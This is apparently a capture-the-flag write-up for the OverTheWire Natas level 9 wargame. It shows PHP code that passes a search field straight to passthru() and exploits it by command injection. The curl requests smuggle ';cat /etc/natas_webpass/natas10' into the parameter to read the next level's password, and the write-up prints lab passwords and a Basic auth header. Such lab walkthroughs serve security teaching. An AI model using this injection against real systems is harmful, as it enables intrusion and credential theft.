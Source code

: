 # BANDIT LEVEL 9

```
http://overthewire.org/wargames/natas/natas9.html
```

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

Looks like we have a form which takes the input `needle` and uses it as the
search pattern for `grep` against a file called `dictionary.txt`.

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Since the source is just taking our input directly as the regular expression
pattern, what if we use `.*` to match against everything in the file?

```
$ curl 'http://natas9.natas.labs.overthewire.org/?needle=.*&submit=Search' -H 'Authorization: Basic bmF0YXM5OlcwbU1oVWNSUm5HOGRjZ2hFNHF2azNKQTlsR3Q4bkRs'
```

So this works and does dump the entire `dictionary.txt` to us, but that doesn't
contain anything that looks like the password. What if we exploit the codes use
of the `passthru()` function to execute our own commands?

```
passthru() - http://php.net/manual/en/function.passthru.php

The passthru() function is similar to the exec() function in that it executes a command.
```

The `;` character can be used to delimit commands within a single line, so let's
try something like: `somestring; ls -l /etc/natas_webpass/natas10` as our input
as that will turn into..

```
passthru("grep -i somestring; ls -l /etc/natas_webpass/natas10 dictionary.txt");
```

Submittng that search string we get..

```
Output:
<pre>
-r--r----- 1 natas10 natas9     33 Dec 20  2016 /etc/natas_webpass/natas10
-rw-r----- 1 natas9  natas9 460878 Dec 15  2016 dictionary.txt
</pre>
```

Great.. now all we need to do is dump that file for our password by tweaking
our input to something like: `somestring; cat /etc/natas_webpass/natas10; ls -l`
which would become..

```
passthru("grep -i somestring; cat /etc/natas_webpass/natas10; ls -l dictionary.txt");
```

The trailing `ls -l` was just so we didn't dump the contents of dictionary.txt
as well.

```
$ curl 'http://natas9.natas.labs.overthewire.org/?needle=somestring%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10%3B+ls+-l&submit=Search' -H 'Authorization: Basic bmF0YXM5OlcwbU1oVWNSUm5HOGRjZ2hFNHF2azNKQTlsR3Q4bkRs'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
-rw-r----- 1 natas9 natas9 460878 Dec 15  2016 dictionary.txt
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
